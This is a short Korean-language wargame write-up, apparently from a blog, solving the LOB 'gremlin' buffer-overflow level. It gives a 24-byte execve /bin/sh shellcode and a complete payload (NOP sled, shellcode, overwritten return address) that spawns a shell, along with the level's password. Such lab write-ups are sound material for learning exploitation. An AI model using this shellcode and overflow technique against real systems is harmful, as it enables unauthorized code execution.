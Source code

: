 <img src="/assets/img/writeup/lob/01.gremlin/image-20180827160200021.png" width="500px">



buffer부분에 shellcode를 올려놓고 ret주소에 buffer주소를 넣으면 함수가 종료되면서 ret주소를 참조하여 해당 주소를 실행할 때, shellcode가 실행되게 된다.



쉘을 실행시키는 shellcode는 다음과 같다.

shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80



#### Payload

```sh
./gremlin `python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x90"*(260-100-24)+"\xf0\xfc\xff\xbf"'`
```

 

<img src="/assets/img/writeup/lob/01.gremlin/image-20180827162535728.png" width="700px">



**gremlin / hello bof world**



![banner](/assets/img/writeup/lob/01.gremlin/banner.png)